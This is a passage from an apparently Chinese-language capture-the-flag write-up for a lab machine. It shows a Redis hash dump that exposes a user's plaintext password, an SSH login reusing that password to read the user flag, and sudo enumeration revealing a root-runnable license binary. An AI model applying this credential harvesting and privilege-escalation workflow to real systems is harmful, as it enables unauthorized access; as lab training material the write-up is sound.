 我们在第 4 行获取了用户**cooper**的密码。

```
redis /run/redis/redis.sock> HGETALL cooper.dooper
 1) "username"
 2) "cooper.dooper"
 3) "password"
 4) "zooperdoopercooper"
 5) "first-name"
 6) "Cooper"
 7) "last-name"
 8) "Dooper"
 9) "pro"
10) "false"
```

### 权限提升

我们通过 SSH 与用户**cooper**连接并读取该flag。

```
┌──(root㉿kali)-[~]
└─# ssh cooper@10.10.11.213                    
The authenticity of host '10.10.11.213 (10.10.11.213)' can't be established.
ED25519 key fingerprint is SHA256:30cTQN6W3DKQMMwb5RGQA6Ie1hnKQ37/bSbe+vpYE98.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.213' (ED25519) to the list of known hosts.
cooper@10.10.11.213's password: 
Linux format 5.10.0-22-amd64 #1 SMP Debian 5.10.178-3 (2023-04-22) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon May 22 20:40:36 2023 from 10.10.14.40
cooper@format:~$ cat user.txt
********************************
```

我们可以使用 sudo 运行_许可证_文件，让我们看看它是什么。

```
cooper@format:~$ sudo -l
[sudo] password for cooper: 
Matching Defaults entries for cooper on format:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cooper may run the following commands on format:
    (root) /usr/bin/license
```
